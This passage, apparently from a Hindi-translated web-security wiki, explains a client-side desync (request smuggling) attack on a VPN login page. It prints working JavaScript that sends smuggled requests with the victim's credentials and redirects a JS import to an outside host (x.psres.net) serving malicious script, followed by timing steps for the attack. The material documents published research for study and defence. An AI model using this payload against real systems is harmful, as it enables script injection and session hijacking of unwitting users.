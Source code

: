```html
sendPoison()
sendPoison()
sendPoison()
setTimeout(reset, 1000)
}

function sendPoison(){
fetch('https://vpn.redacted/dana-na/css/ds_1234cb049586a32ce264fd67d524d7271e4affc0e377d7aede9db4be17f57fc1.css',
{
method: 'POST',
body: "GET /xdana-na/imgs/footerbg.gif HTTP/1.1\r\nHost: x.psres.net\r\nFoo: '+'a'.repeat(9826)+'\r\nConnection: keep-alive\r\n\r\n",
mode: 'no-cors',
credentials: 'include'
}
)
}

</script>
<a onclick="x = window.open('about:blank'); reset()">Start attack</a>
```
इस मामले में, फिर से, एक **होस्ट हैडर** **रीडायरेक्ट** है जिसका उपयोग **JS इम्पोर्ट** को **हाइजैक** करने के लिए किया जा सकता है। हालांकि, इस बार **रीडायरेक्ट को कैश नहीं किया जा सकता**, इसलिए क्लाइंट-साइड **कैश पॉइज़निंग** कोई विकल्प नहीं है।

इसलिए, हमारे द्वारा किया जाने वाला हमला यह होगा कि **पीड़ित पृष्ठ** को एक टैब में एक्सेस करें और फिर, जब पृष्ठ **JS फ़ाइल लोड करने की कोशिश करे**, सॉकेट **स्मगलिंग कनेक्शन** (इस मामले में 3) को **पॉइज़न** करें।
क्योंकि **समयबद्धता** बहुत **सटीक** होनी चाहिए, हमला हर बार एक **नई टैब पर करें** जब तक यह काम नहीं करता है।

{% hint style="warning" %}
ध्यान दें कि इस मामले में `/meeting_testjs.cgi` को हमला किया गया क्योंकि यह एक **404** के साथ जवास्क्रिप्ट लोड करता है, इसलिए इसे कैश नहीं किया जाता है। अन्य स्थितियों में जहां आप एक **कैश किए गए JS** को हमला करने की कोशिश करते हैं, आपको इसे **कैश से हटने** का इंतजार करना होगा और फिर एक नया हमला शुरू करना होगा।
{% endhint %}

सारांश कदम:

* एक नई विंडो खोलें।
* लक्ष्य को एक ताजगी कनेक्शन स्थापित करने के लिए एक अहानिकारक अनुरोध जारी करें, जिससे समयबद्धता और सुस्ती बढ़े।
* विंडो को लक्ष्य पृष्ठ /meeting\_testjs.cgi पर नेविगेट करें।
* 120ms बाद, रीडायरेक्ट गैजेट का उपयोग करके तीन पॉइज़न कनेक्शन बनाएं।
* 5ms बाद, /meeting\_testjs.cgi को रेंडर करते समय पीड़ित व्यक्ति उम्मीदवारता से /appletRedirect.js इम्पोर्ट करने का प्रयास करेगा और उसे x.psres.net पर रीडायरेक्ट किया जाएगा, जो दुष्ट JS सर्व करेगा।
* यदि ऐसा नहीं होता है, तो हमला फिर से करें।

## पॉज़-आधारित डीसिंक <a href="#pause" id="pause"></a>
